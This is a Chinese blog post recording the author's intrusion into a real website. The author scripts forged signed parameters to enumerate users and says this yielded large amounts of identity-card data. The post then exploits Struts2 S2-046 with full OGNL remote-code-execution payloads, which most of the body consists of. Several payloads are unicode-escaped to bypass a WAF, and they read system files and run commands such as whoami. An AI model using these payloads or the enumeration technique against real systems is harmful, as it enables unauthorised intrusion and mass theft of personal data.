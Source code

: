 ```yaml
---
layout: post
title: struts2 绕过记录
date: 2020-09-28
category: webmember
---
```

# 记一次struts2 代码执行漏洞waf绕过

* 工作拿到一个网站www.xxxx.com,网站由于特殊性，参数都是进行加密处理。比如一个数据包会将所有参数的值按照不同规则拼接然后
进行md5加密，渗透入侵这种网站很难，无法修改参数，需要写解密程序，在进行一些功能探索后，发现了一个漏洞点。在申请后有一个下载身份功能，然后我通过编写参数解密程序遍历了appid，获取到了大量用户的身份证数据
参数解密代码为
```
with open('8.txt', 'r') as f:
    for i, name in enumerate(f.readlines()):
        ss = "xxxxxxxx".format(name.strip("\n"))
        new_ss = base64.b64encode(ss.encode('utf-8'))
        newss = "xxxxxxx"+str(new_ss,
                    'utf-8')
        # print(newss)
        m = hashlib.md5()
        m.update(newss.encode("utf8"))
        basestring = "xxxxxxxxxxxxx".format(
            ios=str(new_ss, 'utf-8'), sign=m.hexdigest().upper())
        with open("99.txt", 'a') as a:
            a.write(basestring + "\n")
```
由此遍历出所有存在的appid
* 转折点，通过访问/upload.do 发现了直接500错误
```
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ConversionErrorInterceptor.intercept(ConversionErrorInterceptor.java:138)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept(ParametersInterceptor.java:254)
    at com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept(MethodFilterInterceptor.java:98)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at com.opensymphony.xwork2.interceptor.StaticParametersInterceptor.intercept(StaticParametersInterceptor.java:191)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.MultiselectInterceptor.intercept(MultiselectInterceptor.java:73)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.CheckboxInterceptor.intercept(CheckboxInterceptor.java:91)
    at com.opensymphony.xwork2.DefaultActionInvocation.invoke(DefaultActionInvocation.java:246)
    at org.apache.struts2.interceptor.FileUploadInterceptor.intercept(FileUploadInterceptor.java:252)
```
发现存在strut2框架 于是我使用工具去跑 无果 因为有waf 然后通过一些简单的payload 发现了存在struts2-046漏洞 poc如下
```
%{(#sasxke='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('['+'tttpppppp'+'111]')).(#o.close())}"]
```
但是使用部分cmd exp 无法成功
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cmd /c dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"]
```
还是无法绕过waf 之后通过java特新 unicode编码执行代码 exp
```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):(\u0028\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u005b\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u0027\u005d\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u003d\u0023\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0065\u0072\u002e\u0067\u0065\u0074\u0049\u006e\u0073\u0074\u0061\u006e\u0063\u0065\u0028\u0040\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u006f\u0067\u006e\u006c\u002e\u004f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u0040\u0063\u006c\u0061\u0073\u0073\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0050\u0061\u0063\u006b\u0061\u0067\u0065\u004e\u0061\u006d\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u006f\u0067\u006e\u006c\u0055\u0074\u0069\u006c\u002e\u0067\u0065\u0074\u0045\u0078\u0063\u006c\u0075\u0064\u0065\u0064\u0043\u006c\u0061\u0073\u0073\u0065\u0073\u0028\u0029\u002e\u0063\u006c\u0065\u0061\u0072\u0028\u0029\u0029\u002e\u0028\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0073\u0065\u0074\u004d\u0065\u006d\u0062\u0065\u0072\u0041\u0063\u0063\u0065\u0073\u0073\u0028\u0023\u0064\u006d\u0029\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u003d\u0027\u0073\u0079\u0073\u0074\u0065\u006d\u0069\u006e\u0066\u006f\u0027\u0029\u002e\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003d\u0028\u0040\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0079\u0073\u0074\u0065\u006d\u0040\u0067\u0065\u0074\u0050\u0072\u006f\u0070\u0065\u0072\u0074\u0079\u0028\u0027\u006f\u0073\u002e\u006e\u0061\u006d\u0065\u0027\u0029\u002e\u0074\u006f\u004c\u006f\u0077\u0065\u0072\u0043\u0061\u0073\u0065\u0028\u0029\u002e\u0063\u006f\u006e\u0074\u0061\u0069\u006e\u0073\u0028\u0027\u0077\u0069\u006e\u0027\u0029\u0029\u0029\u002e\u0028\u0023\u0063\u006d\u0064\u0073\u003d\u0028\u0023\u0069\u0073\u0077\u0069\u006e\u003f\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u003a\u007b\u0027\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068\u0027\u002c\u0027\u002d\u0063\u0027\u002c\u0023\u0063\u006d\u0064\u007d\u0029\u0029\u002e\u0028\u0023\u0070\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u0023\u0063\u006d\u0064\u0073\u0029\u0029\u002e\u0028\u0023\u0070\u002e\u0072\u0065\u0064\u0069\u0072\u0065\u0063\u0074\u0045\u0072\u0072\u006f\u0072\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0074\u0072\u0075\u0065\u0029\u0029\u002e\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u003d\u0023\u0070\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u003d\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0073\u0074\u0072\u0075\u0074\u0073\u0032\u002e\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0041\u0063\u0074\u0069\u006f\u006e\u0043\u006f\u006e\u0074\u0065\u0078\u0074\u0040\u0067\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0028\u0029\u002e\u0067\u0065\u0074\u004f\u0075\u0074\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u0029\u0029\u002e\u0028\u0040\u006f\u0072\u0067\u002e\u0061\u0070\u0061\u0063\u0068\u0065\u002e\u0063\u006f\u006d\u006d\u006f\u006e\u0073\u002e\u0069\u006f\u002e\u0049\u004f\u0055\u0074\u0069\u006c\u0073\u0040\u0063\u006f\u0070\u0079\u0028\u0023\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0072\u006f\u0073\u0029\u0029\u002e\u0028\u0023\u0072\u006f\u0073\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029)}"]
```


redirect:%24%7B\u0023\u0062\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0046\u0069\u006c\u0065\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0027\u0063\u003a\u002f\u0077\u0069\u006e\u0064\u006f\u0077\u0073\u002f\u0077\u0069\u006e\u002e\u0069\u006e\u0069\u0027\u0029\u0029\u002c\u0023\u0063\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0062\u0029\u002c\u0023\u0064\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0042\u0075\u0066\u0066\u0065\u0072\u0065\u0064\u0052\u0065\u0061\u0064\u0065\u0072\u0028\u0023\u0063\u0029\u002c\u0023\u0065\u003d\u006e\u0065\u0077\u0020\u0063\u0068\u0061\u0072\u005b\u0035\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0065\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u006d\u0061\u0074\u0074\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u0065\u0029%7d




cmd.exe -c whoami
redirect:%24%7B\u0023\u0072\u0065\u0073\u0070\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0073\u0070\u006f\u006e\u0073\u0065\u0027\u0029\u002c\u0023\u0072\u0065\u0071\u003d\u0023\u0063\u006f\u006e\u0074\u0065\u0078\u0074\u002e\u0067\u0065\u0074\u0028\u0027\u0063\u006f\u006d\u002e\u006f\u0070\u0065\u006e\u0073\u0079\u006d\u0070\u0068\u006f\u006e\u0079\u002e\u0078\u0077\u006f\u0072\u006b\u0032\u002e\u0064\u0069\u0073\u0070\u0061\u0074\u0063\u0068\u0065\u0072\u002e\u0048\u0074\u0074\u0070\u0053\u0065\u0072\u0076\u006c\u0065\u0074\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u0027\u0029\u002c\u0023\u0061\u003d\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0050\u0072\u006f\u0063\u0065\u0073\u0073\u0042\u0075\u0069\u006c\u0064\u0065\u0072\u0028\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u005b\u005d\u007b\u0027\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002c\u0027\u002f\u0063\u0027\u002c\u0027\u0077\u0068\u006f\u0061\u006d\u0069\u0027\u007d\u0029\u0029\u002e\u0073\u0074\u0061\u0072\u0074\u0028\u0029\u002c\u0023\u0062\u003d\u0023\u0061\u002e\u0067\u0065\u0074\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0029\u002c\u0023\u0064\u0069\u0073\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u0069\u006f\u002e\u0044\u0061\u0074\u0061\u0049\u006e\u0070\u0075\u0074\u0053\u0074\u0072\u0065\u0061\u006d\u0028\u0023\u0062\u0029\u002c\u0023\u0062\u0075\u0066\u003d\u006e\u0065\u0077\u0020\u0062\u0079\u0074\u0065\u005b\u0032\u0030\u0030\u0030\u0030\u005d\u002c\u0023\u0064\u0069\u0073\u002e\u0072\u0065\u0061\u0064\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u006d\u0073\u0067\u003d\u006e\u0065\u0077\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0023\u0062\u0075\u0066\u0029\u002c\u0023\u0064\u0069\u0073\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0070\u0072\u0069\u006e\u0074\u006c\u006e\u0028\u0023\u006d\u0073\u0067\u002e\u0074\u0072\u0069\u006d\u0028\u0029\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0066\u006c\u0075\u0073\u0068\u0028\u0029\u002c\u0023\u0072\u0065\u0073\u0070\u002e\u0067\u0065\u0074\u0057\u0072\u0069\u0074\u0065\u0072\u0028\u0029\u002e\u0063\u006c\u006f\u0073\u0065\u0028\u0029%7D


成功拿下网站 
![struts](./assert/image/struts.jpg)

## 总结
* 遇到这种网站如果无法解密加密方式 无法对网站进行渗透
* 通过其他途径入侵web系统 如报错中的使用的漏洞框架
* 针对java的waf绕过方式的总结
